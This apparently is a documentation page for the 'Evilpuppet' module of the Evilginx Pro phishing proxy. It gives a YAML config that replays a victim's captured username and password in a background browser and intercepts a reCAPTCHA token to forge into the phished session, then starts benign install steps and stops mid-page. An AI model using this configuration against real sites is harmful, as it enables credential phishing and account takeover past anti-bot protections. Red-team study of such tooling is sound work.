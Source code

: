 >### info
This part applies only to Evilginx Pro users who have access to Evilpuppet module.

Interactive background browser sessions, spawned on-demand, with sole purpose of forging secret tokens to be used within the proxied Evilginx session.

```
evilpuppet:
  triggers:
    - domains: ['www.domain.com']
      paths: ['/sessions']
      token: 'recaptcha_token'
      open_url: 'https://www.domain.com/signin'
      actions:
        - selector: '#email'
          value: '{username}'
          enter: false
          click: false
          post_wait: 0
        - selector: '#password'
          value: '{password}'
          enter: false
          click: false
          post_wait: 0
        - selector: '#stay_signed_in'
          click: true
          post_wait: 0
        - selector: '#signin_button'
          click: true
          post_wait: 0
  interceptors:
    - token: 'recaptcha_token'
      url_re: '/sessions'
      post_re: 'recaptcha_token=([^&]*)'
      abort: true
```
#### Installation Steps​
Update Package Lists​

Begin by updating your system’s package lists to ensure you have the latest information on the newest versions of packages and their dependencies.
```
sudo apt-get update
```
Install xrandr​

xrandr is a utility for managing screen resolutions and display settings.

-- Use this option if you want to run Playwright with Xserver (for example, in MobaXterm) so you can view the browser live.
-- If use "Headless: playwright.Bool(true)," do no need this to install.
```
sudo apt-get install x11-xserver-utils  
```
#### Install Google Chrome

